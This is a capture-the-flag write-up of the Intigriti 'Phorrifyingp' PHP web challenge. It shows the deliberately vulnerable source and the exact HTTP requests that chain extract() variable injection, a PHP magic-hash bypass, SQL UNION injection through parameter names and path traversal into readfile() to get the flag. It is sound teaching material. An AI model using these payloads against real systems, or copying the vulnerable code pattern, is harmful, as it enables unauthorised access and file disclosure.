 ```yaml
---
layout: post
title: Intigriti CTF: Phorrifyingp
author: Cillian
tags: [ctf, web]
---
```

﻿
In this post I'll discuss the first challenge our team solved as part of the Intigriti CTF. This was a php web challenge where we were given the source and asked to read the contents of the file to retrieve a flag.

<!-- read more -->

## Initial Assessment
The source code for the challenge can be seen below:

    <?php  
	    /*  
	    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>  
	    */  
	    if ($_SERVER['REQUEST_METHOD'] == 'POST'){  
		    extract($_POST);  
	      
		    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){  
			    $loggedin = true;  
		    }  
	      
		    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){  
		    header('Location: ' . $_SERVER['REQUEST_URI']);  
		    }  
		      
		    if (isset($loggedin) && $loggedin){  
			    echo 'One step closer 😎<br>';  
		      
			    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){  
				    echo 'Really? 😅<br>';  
				      
				    $db = new SQLite3('database.db');  
				    $sql_where = Array('1=0');  
				      
				    foreach ($_POST as $key => $data) {  
					    $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";  
				    }  
				      
				    $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));  
				      
				    if ($result == 'admin'){  
					    echo 'Last step 🤣<br>';  
				      
					    readfile(file_get_contents('php://input'));  
					}  
			    }  
		    }  
	    }  
    ?> 
We can see that this challenge will require us to bypass a number of conditional statements in order to execute the final readfile() function, where we will then need to modify our payload so that we can read a file.

## Step 1: We're Logged In!

    if (isset($loggedin) && $loggedin)

The first important conditional statement is checking if the $loggedin variable is true. We notice a suspicious usage of the extract() function above this. This function allows variables to be extracted from arrays. It's being run on $_POST which is our POST input (user/attacker controlled). This will allow us to not only declare variable, but also to assign values to them using POST data.

We can simply pass a loggedin parameter with a value of true.

> POST / HTTP/1.1 Host: phorrifyingp.ctf.intigriti.io Content-Type:
> application/x-www-form-urlencoded Content-Length: 32
> 
> loggedin=true

Once sent, we see the confirmation on the page:

> One step closer 😎

## Step 2: It's Magic!

    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])
  The next conditional statement is checking for a GET parameter named "action". This parameter must satisfy the condition that its value is equal to its md5 value.
  
  This seems very unlikely. In fact, it takes a little bit of understanding about php [magic hashes](https://www.whitehatsec.com/blog/magic-hashes/) to understand how this condition could be satisfied.

In short, the use of "=\=" allows for comparison of different object types. If we wanted to compare the literal value, we'd use "\=\=\=". If we enter a String with a value such as "0e1", this will effectively equal 0 to the power of 1 (which is 0). In fact, 0 to the power of any number will always result in 0.

Using this logic, we simply need an input beginning with 0e and followed by a series of numbers which results in a md5 hash which also begins with 0e and is followed by a series of numbers.

Once such input is "0e215962017". The md5 value of which is "0e291242476940776845150308577824".

Placing this as a GET parameter, we will get one step closer.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    
    loggedin=true
We get the confirmation:

> Really? 😅

## Step 3: State Of The Union

    if ($result == 'admin')
The last conditional statement checks if $result is equal to 'admin'. This value comes from a SQL statement. Each of the parameters we pass in our POST data will become a part of this query. They are joined with the 'AND' condition. The clause array is initially populated with "1=0" which can never be true.

Firstly, we encounter errors about "no such column loggedin", which hints that we'll need to find a way to get rid of this part of the query, we can do so by commenting it out.

    1--=aaaa&loggedin=true
Next, we notice that the current state of the query will never be true due to the "1=0" condition. This hints towards us using a UNION query to separately select the "admin" entry. We inject this into the parameter name.

   

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    
    1/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true

We receive the confirmation that we have bypassed this check:

> Last step 🤣

## Step 4: Traversing The Plane
   

> Warning</b>: 
> readfile(1/\*\*/UNION/\*\*/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true):
> failed to open stream: No such file or directory in
> /var/www/html/index.php

As we can see from the error above, the entire POST data payload is being sent into the readfile() function.

We can enter invalid directories, as long as we traverse back out of them. Using "\.\." we are in effect removing it from the path **before** it is ever searched for.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
    
    1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php

And we get the flag:

> 1337UP{PHP_SCARES_ME_IT_HAUNTS_ME_WHEN_I_SLEEP_ALL_I_CAN_SEE_IS_PHP_PLEASE_SOMEONE_HELP_ME}

## Final Notes
Thanks to all members of "Team Ireland Without RE" with special thanks to [@0daystolive](https://twitter.com/0daystolive).
